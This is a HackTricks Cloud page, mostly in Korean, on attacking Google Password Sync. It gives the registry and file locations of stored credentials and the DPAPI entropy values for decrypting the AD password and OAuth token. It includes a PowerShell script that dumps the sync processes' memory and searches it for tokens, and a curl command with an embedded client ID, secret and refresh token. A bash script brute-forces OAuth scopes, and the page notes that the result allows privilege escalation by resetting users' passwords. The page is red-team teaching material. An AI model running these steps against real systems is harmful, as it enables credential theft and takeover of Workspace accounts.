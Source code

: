 # GPS - Google Password Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

이것은 Google이 **AD와 Workspace 간의 사용자 비밀번호를 동기화하기 위해 제공하는 바이너리 및 서비스**입니다. 사용자가 AD에서 비밀번호를 변경할 때마다 Google에 설정됩니다.

이것은 `C:\Program Files\Google\Password Sync`에 설치되며, 여기에서 구성할 수 있는 바이너리 `PasswordSync.exe`와 계속 실행될 서비스 `password_sync_service.exe`를 찾을 수 있습니다.

### GPS - Configuration

이 바이너리(및 서비스)를 구성하려면 **Workspace에서 Super Admin 주체에 대한 액세스를 제공해야 합니다**:

* Google을 통해 **OAuth**로 로그인한 후 **레지스트리에 토큰을 저장합니다(암호화됨)**
* GUI가 있는 도메인 컨트롤러에서만 사용 가능
* **Workspace 사용자 관리** 권한이 있는 **GCP의 서비스 계정 자격 증명(json 파일)** 제공
* 이러한 자격 증명은 만료되지 않으므로 악용될 수 있어 매우 나쁜 아이디어입니다.
* SA가 GCP에서 손상될 수 있으므로 Workspace에 대한 SA 액세스를 제공하는 것은 매우 나쁜 아이디어입니다.
* Google은 GUI가 없는 도메인 제어를 위해 이를 요구합니다.
* 이러한 자격 증명도 레지스트리에 저장됩니다.

AD와 관련하여 현재 **응용 프로그램 컨텍스트, 익명 또는 특정 자격 증명**을 사용하도록 지정할 수 있습니다. 자격 증명 옵션이 선택되면 **사용자 이름**은 **디스크**의 파일에 저장되고 **비밀번호**는 **암호화되어** **레지스트리**에 저장됩니다.

### GPS - Dumping password and token from disk

{% hint style="success" %}
[**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe)가 **GPS**를 감지하고 구성에 대한 정보를 얻으며 **비밀번호와 토큰을 복호화**할 수 있다는 점에 유의하세요.
{% endhint %}

파일 **`C:\ProgramData\Google\Google Apps Password Sync\config.xml`**에서 구성의 일부를 찾을 수 있으며, 여기에는 구성된 AD의 **`baseDN`**과 사용 중인 자격 증명의 **`username`**이 포함됩니다.

레지스트리 **`HKLM\Software\Google\Google Apps Password Sync`**에서 **암호화된 새로 고침 토큰**과 AD 사용자(있는 경우)의 **암호화된 비밀번호**를 찾을 수 있습니다. 또한, 토큰 대신 **SA 자격 증명**이 사용되는 경우, 해당 레지스트리 주소에서 암호화된 자격 증명을 찾을 수 있습니다. 이 레지스트리의 **값**은 **관리자**만 **액세스**할 수 있습니다.

암호화된 **비밀번호**(있는 경우)는 **`ADPassword`** 키 안에 있으며 **`CryptProtectData`** API를 사용하여 암호화됩니다. 이를 복호화하려면 비밀번호 동기화를 구성한 사용자와 동일해야 하며, **`CryptUnprotectData`**를 사용할 때 이 **엔트로피**를 사용해야 합니다: `byte[] entropyBytes = new byte[] { 0xda, 0xfc, 0xb2, 0x8d, 0xa0, 0xd5, 0xa8, 0x7c, 0x88, 0x8b, 0x29, 0x51, 0x34, 0xcb, 0xae, 0xe9 };`

암호화된 토큰(있는 경우)은 **`AuthToken`** 키 안에 있으며 **`CryptProtectData`** API를 사용하여 암호화됩니다. 이를 복호화하려면 비밀번호 동기화를 구성한 사용자와 동일해야 하며, **`CryptUnprotectData`**를 사용할 때 이 **엔트로피**를 사용해야 합니다: `byte[] entropyBytes = new byte[] { 0x00, 0x14, 0x0b, 0x7e, 0x8b, 0x18, 0x8f, 0x7e, 0xc5, 0xf2, 0x2d, 0x6e, 0xdb, 0x95, 0xb8, 0x5b };`\
또한, **`0123456789abcdefghijklmnopqrstv`** 사전을 사용하여 base32hex로 인코딩됩니다.

엔트로피 값은 도구를 사용하여 발견되었습니다. 이 도구는 **`CryptUnprotectData`** 및 **`CryptProtectData`** 호출을 모니터링하도록 구성되었으며, 그런 다음 `PasswordSync.exe`를 실행하고 모니터링하는 데 사용되었습니다. 이 도구는 구성된 비밀번호와 인증 토큰을 처음에 복호화하며, 두 경우 모두 사용된 **엔트로피** 값을 **표시합니다**:

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-5782633230648853886-y.jpg" alt=""><figcaption></figcaption></figure>

이 API 호출의 입력 또는 출력에서 **복호화된** 값을 볼 수 있다는 점에 유의하세요(Winpeas가 작동을 멈춘 경우).

비밀번호 동기화가 **SA 자격 증명으로 구성된 경우**, 레지스트리 **`HKLM\Software\Google\Google Apps Password Sync`**의 키 안에 저장됩니다.

### GPS - Dumping tokens from memory

GCPW와 마찬가지로 `PasswordSync.exe` 및 `password_sync_service.exe` 프로세스의 메모리를 덤프할 수 있으며, 이미 생성된 경우 새로 고침 및 액세스 토큰을 찾을 수 있습니다.\
AD 구성 자격 증명도 찾을 수 있을 것입니다.

<details>

<summary>Dump <code>PasswordSync.exe</code> and the <code>password_sync_service.exe</code> processes and search tokens</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$processNames = @("PasswordSync", "password_sync_service")
$chromeProcesses = Get-Process | Where-Object { $processNames -contains $_.Name } | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}
```
</details>

### GPS - 리프레시 토큰으로 액세스 토큰 생성

리프레시 토큰을 사용하여 다음 명령에 지정된 클라이언트 ID와 클라이언트 비밀을 사용하여 액세스 토큰을 생성할 수 있습니다:
```bash
curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
https://www.googleapis.com/oauth2/v4/token
```
### GPS - Scopes

{% hint style="info" %}
리프레시 토큰이 있더라도, 액세스 토큰을 생성하는 애플리케이션에서 지원하는 **스코프만 요청할 수 있기 때문에** 액세스 토큰에 대한 스코프를 요청하는 것은 불가능합니다.

또한, 리프레시 토큰은 모든 애플리케이션에서 유효하지 않습니다.
{% endhint %}

기본적으로 GPS는 사용자가 모든 가능한 OAuth 스코프에 접근할 수 없으므로, 다음 스크립트를 사용하여 `refresh_token`으로 `access_token`을 생성하는 데 사용할 수 있는 스코프를 찾을 수 있습니다:

<details>

<summary>Bash script to brute-force scopes</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

그리고 이것은 제가 작성 당시 받은 출력입니다:
```
https://www.googleapis.com/auth/admin.directory.user
```
어떤 범위를 지정하지 않으면 얻는 것과 동일합니다.

{% hint style="danger" %}
이 범위로 **기존 사용자의 비밀번호를 수정하여 권한을 상승시킬 수 있습니다**.
{% endhint %}

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}

